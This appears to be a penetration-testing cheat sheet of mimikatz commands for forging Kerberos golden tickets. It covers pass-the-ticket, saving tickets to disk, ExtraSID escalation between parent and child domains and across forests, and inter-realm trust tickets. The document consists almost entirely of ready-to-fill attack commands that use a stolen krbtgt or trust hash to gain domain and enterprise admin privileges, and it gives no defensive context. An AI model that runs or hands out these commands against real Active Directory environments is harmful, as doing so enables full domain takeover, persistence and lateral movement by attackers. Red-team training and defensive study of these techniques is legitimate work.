 # mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 


## golden - ptt
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user|administrator> /id:<user_rid|500> /group:500,501,513,512,520,518 /krbtgt:<krbtgt_nthash>  /sid:<domain_sid> /domain:<domain_fqdn> /ptt" "exit"
```

## golden - save
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user|administrator> /id:<user_rid|500> /group:500,501,513,512,520,518 /krbtgt:<krbtgt_nthash>  /sid:<domain_sid> /domain:<domain_fqdn> /ticket:c:\temp\trust.kirbi" "exit"
```

## golden - ExtraSID (parent-child) 
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user|jubeaz> /id:<user_rid> /group:500,501,513,512,520,518 /krbtgt:<krbtgt_nthash>  /sid:<domain_sid> /domain:<domain_fqdn> /sids:<dst_domain_sid>-<rid|519> /ptt" "exit"
```

## golden - ExtraSID (parent-child) (dc account)
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<dc_name>$ /id:<dc_rid> /krbtgt:<krbtgt_nthash>  /groups:516 /sid:<domain_sid> /domain:<domain_fqdn> /sids:<dst_domain_sid>-<rid|516> /ptt" "exit"
```

## golden - ExtraSID (cross-forest)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user> /id:<user_rid> /krbtgt:<krbtgt_nthash> /group:500,501,513,512,520,518 /sid:<domain_sid> /domain:<domain_fqdn> /sids:<dst_domain_sid>-<rid>  /ptt" "exit"
```

## golen - Inter-Realm TGT  
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user> /id:<user_rid> /group:500,501,513,512,520,518 /rc4:<trust_nthash>  /sid:<domain_sid> /domain:<domain_fqdn> /sids:<dst_domain_sid>-<rid|519> /service:krbtgt /target:<dst_domain_fqdn> /ptt" "exit"
```